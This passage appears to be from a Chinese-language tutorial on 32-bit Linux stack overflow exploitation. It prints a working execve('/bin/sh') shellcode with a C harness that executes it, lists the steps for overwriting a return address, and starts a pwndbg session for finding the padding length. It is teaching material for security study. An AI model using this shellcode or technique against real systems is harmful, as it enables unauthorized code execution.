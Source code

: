 ### 提取

提取测试代码反汇编出来的机器码

```shell
objdump -d shellcode
```

提取得到shellcode的指令的机器码

```
SHELLCODE = "
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b \xcd\x80
"
```

所以上述代码还可以改写为：

```c
char shellcode[]=
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b \xcd\x80";
int main(int argc,char **argv)
{
    void(*f)()=(void(*)())shellcode;
    f();
    return 0;
}
```

段代码中，shellcode存储在全局字符数组中，属于.data section,编译器默认其不可执行，必须加上选项-z execstack,即开启栈/堆/数据段可执行

## 栈溢出漏洞利用步骤

1. 找到能够刚好覆盖返回地址的缓冲区长度
2. 填充Shellcode并找到Shellcode所在地址
3. 将返回地址覆盖为Shellcode地址

## 寻找填充长度

### 手动寻找

为了精确覆盖返回地址，首先要找到从缓冲区开头到栈上的返回地址有多少距离。我们可以先找到缓冲区开头的地址，再找到返回地址所在位置，两者相减即可。为了找到缓冲区开头地址，我们可以在调用strcpy之前下断点，通过查看strcpy第一个参数即可。另外，可在main函数返回前断下，此时esp指向的即是返回地址所在位置。

现在依然以上文的示例程序为例：

```shell
syc@ubuntu:~/Desktop/test$ gdb -q --args bof AAAA
pwndbg: loaded 179 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from bof...(no debugging symbols found)...done.
pwndbg> r
Starting program: /home/syc/Desktop/test/bof AAAA
argv[1]:AAAA
[Inferior 1 (process 3282) exited normally]
pwndbg> disassemble main
Dump of assembler code for function main:
   0x5655554d <+0>:	lea    ecx,[esp+0x4]
   0x56555551 <+4>:	and    esp,0xfffffff0
   0x56555554 <+7>:	push   DWORD PTR [ecx-0x4]
   0x56555557 <+10>:	push   ebp
   0x56555558 <+11>:	mov    ebp,esp
   0x5655555a <+13>:	push   ebx
   0x5655555b <+14>:	push   ecx
   0x5655555c <+15>:	add    esp,0xffffff80
   0x5655555f <+18>:	call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555564 <+23>:	add    ebx,0x1a70
```